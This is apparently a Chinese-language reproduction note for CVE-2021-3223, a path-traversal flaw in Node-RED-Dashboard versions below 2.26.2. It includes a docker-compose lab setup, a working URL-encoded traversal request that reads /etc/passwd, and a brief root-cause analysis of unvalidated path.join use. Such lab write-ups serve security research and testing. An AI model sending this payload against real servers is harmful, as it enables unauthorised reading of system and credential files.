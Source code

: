 # Node-Red-Dashboard 任意文件读取（CVE-2021-3223）

## 影响版本

version < 2.26.2

![1.png](1.png)

## 环境搭建

```
docker-compose up -d
```

## 复现

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![2.png](2.png)

## 漏洞简析

Node-RED-Dashboard 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的任意文件
